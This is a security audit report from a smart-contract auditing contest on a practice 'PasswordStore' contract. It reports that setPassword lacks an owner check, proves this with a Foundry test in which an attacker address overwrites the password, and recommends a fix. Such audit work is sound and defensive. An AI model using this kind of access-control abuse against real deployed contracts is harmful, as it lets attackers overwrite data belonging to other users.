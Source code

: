 
# First Flight #1: PasswordStore - Findings Report

# <a id='contest-summary'></a>Contest Summary

### Sponsor: First Flight #1

### Dates: Oct 18th, 2023 - Oct 25th, 2023

[See more contest details here](https://www.codehawks.com/contests/clnuo221v0001l50aomgo4nyn)

# <a id='results-summary'></a>Results Summary

### Number of findings:
   - High: 1
   - Medium: 0
   - Low: 0


# High Risk Findings

## <a id='H-01'></a>H-01. setPassword can be called by attacker, loss of password            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-PasswordStore/blob/856ed94bfcf1031bf9d13514cb21b591d88ed323/src/PasswordStore.sol#L26

## Summary
`PasswordStore::setPassword` function is only called by `s_owner` of the protocol, but any user/attacker can call that function.

## Vulnerability Details
According to the protocol, `PasswordStore::setPassword` functions should have access control so that only `s_owner` can call this functions.

## Impact
Any attacker can change/set the password according to their need that leads to the loss of original password set by `s_owner`.
// here is proof, I've written a unit test in foundry

```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {PasswordStore} from "../src/PasswordStore.sol";
import {DeployPasswordStore} from "../script/DeployPasswordStore.s.sol";
import {Test, console} from "forge-std/Test.sol";

contract PasswordStoreTest is Test {
    PasswordStore public passwordStore;
    address ATTACKER = makeAddr("attacker");
    address public owner;

    function setUp() public {
        DeployPasswordStore deployer = new DeployPasswordStore();
        passwordStore = deployer.run();
        owner = msg.sender;
    }

    function test_onwer_can_set_password() public {
        //owner is setting the password
        vm.startPrank(owner);
        string memory expectedPassword = "ownerPassword";
        passwordStore.setPassword(expectedPassword);
        //onwer is getting the password
        string memory actualPassword = passwordStore.getPassword();
        assertEq(expectedPassword, actualPassword);
    }

    function test_attacker_can_also_set_password() public {
        //attacker is setting the password
        vm.startPrank(ATTACKER);
        string memory expectedPassword = "attackerPassword";
        passwordStore.setPassword(expectedPassword);
        //owner is getting the password set by attacker ie. attackerPassword
        vm.startPrank(owner);
        string memory actualPassword = passwordStore.getPassword();
        assertEq(expectedPassword, actualPassword);
    }
}
```
// here is the result
```
Running 2 tests for test/PasswordStoreTest.t.sol:PasswordStoreTest
[PASS] test_attacker_can_also_set_password() (gas: 41706)
[PASS] test_onwer_can_set_password() (gas: 39261)
Test result: ok. 2 passed; 0 failed; 0 skipped; finished in 941.58µs
Ran 1 test suites: 2 tests passed, 0 failed, 0 skipped (2 total tests)
```

## Tools Used
VS Code, Foundry

## Recommendations
Use modifier or require or if statement for access control
```diff
+    if (msg.sender != s_owner) {
+          revert PasswordStore__NotOwner();
+      }
```

//After using above code your function should look like this
```solidity
 function setPassword(string memory newPassword) external {
        if (msg.sender != s_owner) {
            revert PasswordStore__NotOwner();
        }
        s_password = newPassword;
        emit SetNetPassword();
    }
```
		
